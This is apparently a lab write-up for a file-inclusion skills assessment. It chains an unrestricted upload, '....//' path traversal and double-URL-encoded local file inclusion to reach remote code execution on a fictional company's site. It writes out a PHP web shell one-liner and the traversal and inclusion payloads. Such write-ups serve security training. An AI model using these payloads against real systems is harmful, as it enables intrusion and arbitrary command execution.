# Skills Assessment - File Inclusion

## Scenario
You have been contracted by **Sumace Consulting Gmbh** to carry out a web application penetration test against their main website. During the kickoff meeting, the CISO mentioned that last year's penetration test resulted in zero findings, however they have added a job application form since then, and so it may be a point of interest.

## Question
Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.



`/apply.php`



On this page there is the form we mentioned at the beginning (`/api/application.php`).


You make a few attempts and it seems that there are no checks on the file type, extension, and name of the file you upload.





`/thanks.php?n=value`



### Directory fuzzing



- Filter replace **../**
- `?/images/`

## Web root fuzzing



- Path `/var/www/html/images/`
- **Path traversal** payload `/api/image.php?p=....//....//....//....//var/www/html/images/a4cbc9532b6364a008e2ac58347e3e3c`

Attempt to read arbitrary file:



It works!

`/api/application.php`



```php
$target_file = "../uploads/" . md5_file($tmp_name) . "." . $ext;
```

We calculate the file's MD5 for the filename and the 'name' to define the extension of the file that will be stored in the `/uploads` folder.

> The `$_FILES['file']['tmp_name']` is the path (not name) of that temporary file and it is specified in the php.ini file in the field "**upload_tmp_dir**".

`/api/image.php`



The "file_get_contents" is used to read the local files of the web server.

`/api/contact.php`



**LFI vulnerability** in `contact.php` where you can specify a path to execute a PHP file.

## Exploitation

```bash
$ echo -n '<?php system($_GET["cmd"]); ?>' > file.php

$ md5sum file.php
eca599d7d063b4d277b7b14e5efe4a6e file.php
```

### 1. Upload the web shell payload


### 2. LFI + RCE

The filter in `/contact.php` is bypassed through double URL encoding of characters "." and "/".



It includes the file `/uploads/eca599d7d063b4d277b7b14e5efe4a6e.php` with the `/contact.php?region=../uploads/eca599d7d063b4d277b7b14e5efe4a6e&cmd=id`. The payload becames `/contact.php?region=%252e%252e%252fuploads%252feca599d7d063b4d277b7b14e5efe4a6e&cmd=id` after the double URL encoding.

`&cmd=ls%20/`



---
